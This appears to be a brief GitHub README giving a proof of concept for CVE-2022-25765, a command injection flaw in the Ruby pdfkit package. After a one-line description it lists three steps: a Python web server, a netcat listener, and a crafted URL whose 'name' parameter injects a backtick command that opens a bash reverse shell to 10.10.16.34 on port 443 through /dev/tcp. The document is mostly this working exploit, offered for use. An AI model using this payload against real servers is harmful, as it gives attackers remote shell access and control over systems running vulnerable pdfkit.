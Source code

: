 # PDFkit-CMD-Injection 

CVE-2022-25765 Detail

Description
The package pdfkit from 0.0.0 are vulnerable to Command Injection where the URL is not properly sanitized.



# PoC

1- python3 -m http.server 80

2- nc -lnvp 'Target Port'

3- http://'TARGET_ADDRESS:Target PORT'//?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.16.34/443 <&1'`'}
